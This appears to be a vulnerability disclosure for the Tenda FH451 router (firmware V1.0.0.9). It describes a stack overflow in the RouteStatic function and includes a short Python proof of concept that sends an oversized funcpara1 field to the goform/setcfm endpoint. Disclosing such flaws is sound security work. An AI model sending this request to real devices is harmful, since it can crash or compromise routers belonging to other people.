 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-1629.html
## Affected version

FH451  V1.0.0.9
## Vulnerability details

Tenda FH451 V1.0.0.9 has a stack overflow vulnerability located in the RouteStatic function.Without checking the length of the parameter var, it was assigned to stackspace v4
![Vulnerability Function2](154737.png)

## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.109.145/'

url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```
![Vulnerability Function2](160328.png)